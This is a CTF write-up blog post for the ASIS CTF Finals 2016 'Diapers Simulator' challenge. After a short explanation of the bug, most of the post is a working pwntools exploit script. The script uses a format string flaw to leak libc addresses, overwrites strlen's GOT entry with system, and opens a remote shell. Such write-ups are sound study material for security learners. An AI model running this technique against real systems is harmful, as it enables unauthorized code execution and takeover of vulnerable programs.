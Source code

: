 ```yaml
---
layout: post
alias: "/blog/2016/09/12/asis-ctf-finals-2016-diapers-simulator/"
date: "2016-09-12T02:26:40+09:00"
tags: [ "ctf", "writeup", "asis-ctf", "pwn", "format-string-attack" ]
---
```


# ASIS CTF Finals 2016: Diapers Simulator

Only doing.

## solution

If the value of wetness is negative, you can overwrite the sponsor's message and do format string attack.

The struct is like below:

``` c
struct diaper_t {
    char brand[12];
    int wetness;
    char sponsor_message[];
};
```

`1) Change Diapers` can make the `wetness` negative.
`3. Bunny Rabbit` fills `brand` with $12$ bytes without null byte.
`0) Change Brand` use `strlen` to know the length and this allows us to modify the `sponsor_message`.
`2) Leave` has a format string bug with `sponsor_message`.
Now, you can do format string attack.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='diapers.asis-ctf.ir')
parser.add_argument('port', nargs='?', default=1343, type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./diapers')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

p = remote(args.host, args.port)
p.recvuntil('> ')
p.sendline('3')
for i in range(257):
    p.recvuntil('> ')
    p.sendline('1')
buflen = 108
offset = 15
def fsa(s, header=''):
    payload = ''
    payload += header
    assert len(payload) <= offset
    payload += ' ' * (offset - len(payload))
    payload += s
    assert len(payload) <= buflen
    payload += ' ' * (buflen - len(payload))
    p.recvuntil('> ')
    p.sendline('0')
    p.send(payload)
    p.recvuntil('> ')
    p.sendline('2')
    x = 'And now a message from our sponsors:\n'
    y = "Sorry, you're not allowed to leave your baby unless it's dry!\n"
    p.recvuntil(x)
    return p.recvuntil(y)[ : - len(y) ]

assert fsa('%18$p').startswith('%#x' % u32('%18$'))

# leak libc
libc_start_main  = u32(fsa('%20$s   ' + p32(elf.got['__libc_start_main']))[: 4])
setvbuf          = u32(fsa('%20$s   ' + p32(elf.got['setvbuf']))[: 4])
log.info('__libc_start_main: %#x', libc_start_main)
log.info('setvbuf: %#x', setvbuf)
libc_base = setvbuf - libc.symbols['setvbuf']
log.info('libc base: %#x', libc_base)

# got overwrite
write = { elf.got['strlen']: libc_base + libc.symbols['system'] }
payload = fmtstr.fmtstr_payload(18, write)
log.info('payload:\n' + fiddling.hexdump(payload))
fsa(payload, header='/bin/sh\0')

# run
p.recvuntil('> ')
p.sendline('0')

time.sleep(1)
p.sendline('id')
p.interactive()
```

